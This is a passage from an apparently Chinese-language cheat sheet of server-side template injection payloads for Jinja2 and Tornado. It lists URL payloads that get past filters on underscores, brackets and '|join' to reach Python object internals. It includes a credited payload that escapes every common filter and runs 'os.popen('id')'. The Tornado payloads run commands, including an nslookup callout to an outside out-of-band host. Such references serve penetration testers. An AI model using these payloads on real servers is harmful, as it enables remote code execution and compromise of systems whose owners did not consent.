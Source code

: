 ```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(["_"*2,"class","_"*2]|join)}}
http://localhost:5000/?exploit={{request|attr(["__","class","__"]|join)}}
http://localhost:5000/?exploit={{request|attr("__class__")}}
http://localhost:5000/?exploit={{request.__class__}}
```

绕过 `[` 和 `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

绕过 `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

通过 [@SecGus](https://twitter.com/SecGus) 绕过大多数常见过滤器（'.'、'_'、'|join'、'['、']'、'mro' 和 'base'）：

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## Tornado

### Tornado - 基本注入

```py
{{7*7}}
{{7*'7'}}
```

### Tornado - 远程命令执行

```py
{{os.system('whoami')}}
{%import os%}{{os.system('nslookup oastify.com')}}
```

---

## Mako
